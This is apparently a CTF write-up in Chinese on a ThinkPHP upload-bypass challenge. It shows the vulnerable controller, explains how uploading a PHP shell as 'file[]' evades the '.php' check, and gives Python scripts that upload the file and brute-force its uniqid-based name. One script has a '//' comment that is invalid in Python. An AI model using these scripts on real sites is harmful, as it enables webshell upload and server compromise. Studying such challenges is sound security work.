


## 思路

1.打开网页，首先是一段php源码，如下：

```php
 <?php 
    namespace Home\Controller; 
	use Think\Controller; 
	class IndexController extends Controller {   
        public function index()   
        {     
            show_source(__FILE__);   
        }   
        public function upload()   
        {     
            $uploadFile = $_FILES['file'] ;         
            if (strstr(strtolower($uploadFile['name']), ".php") ) {       
                return false;     
            }         
            $upload = new \Think\Upload();// 实例化上传类     
            $upload->maxSize = 4096 ;// 设置附件上传大小     
            $upload->allowExts = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型     
            $upload->rootPath = './Public/Uploads/';// 设置附件上传目录     
            $upload->savePath = '';// 设置附件上传子目录     
            $info = $upload->upload() ;  //此处存在漏洞   
            if(!$info) {// 上传错误提示错误信息      
                $this->error($upload->getError());      
                return;     
            }else{// 上传成功 获取上传文件信息      
                $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
                echo json_encode(array("url"=>$url,"success"=>1));     
            }   
        } 
    } 
```

分析该段代码：

- 首先会获取上传文件的文件名，并将其转化为小写，判断是否包含.php。

- 限制了上传文件的最大大小：4096

- 限制了可以上传的文件类型：jpg、gif、png、jpeg

- thinkphp**默认上传路径**是/home/index/upload

- 这里调用**upload()函数**，该函数存在一个漏洞，

  在不传参时为多文件上传，整个$FILES数组的文件都会上传保存，但该题只限制了$_FILES[file]的上传后缀，因此就可以通过上传多文件绕过php后缀限制。
  
  

2. 该题与常规的有文件上传按钮的题目不同，需要自己构建POST请求，上传文件。--》可以写python脚本实现

   > $_FILES是一个预定义的数组，用来获取通过POST方法上传文件的相关信息。
   >
   > 单个文件上传--》$_FILES为二维数组
   >
   > 多个文件上传--》$_FILES为三维数组

   利用python进行POST请求上传文件，格式如下：

   

3. thinkphp上传文件时，文件名是按顺序递增的

采用下面的脚本，上传多个文件，来绕过对文件后缀名的检测

> 查看thinkphp源码得知文件名是通过uniqid函数生成的，uniqid函数是基于**以微秒计**的当前时间计算的，两个同时上传生成的文件名相差不会太远，因此可以在两个文件名之间进行暴力遍历，找到上传的木马文件的文件名。

```python
import requests

url = 'http://7a4fb2e4-7ba4-49b0-a137-450ceea340d1.node3.buuoj.cn/index.php/home/index/upload'
file1 = {'file':open('special_dict.txt','r')}
file2 = {'file[]':open('test.php','r')}//upload()不传参时即是批量上传所以用[]

r = requests.post(url,files = file1)
print(r.text)

r = requests.post(url,files = file2)
print(r.text)

r = requests.post(url, files = file1)
print(r.text)
```

4. 可以看到上传的两个txt文件的文件名前几位都相同，只有最后五位不同，因此可以只遍历后五位，找出上传的木马php文件的文件名，然后再进行连接。



​	进行遍历的脚本为：

```python
dir ='abcdef0123456789'
for i in dir:
    for j in dir:
        for k in dir:
            for x in dir:
                for y in dir:
                    url = 'http://e2a3bb2f-2911-4b51-b679-0d15f7f3899b.node3.buuoj.cn/Public/Uploads/2020-12-27/5fe88b1b{}{}{}{}{}'.format(i,j,k,x,y)
                    #print(url)
                    print("next")
                    r = requests.get(url)
                    if r.status_code == 200:
                        print(url)
                        break
```


## 总结

- 本题主要考查的是对thinkphp的upload文件上传漏洞
  - 上传多个文件，即可绕过对文件后缀名的检测，成功上传php文件
  - upload函数默认上传的文件路径为/home/index/upload
  - thinkphp上传文件后会修改文件名，根据上传时间生成，因此同时上传的文件一般文件名比较接近。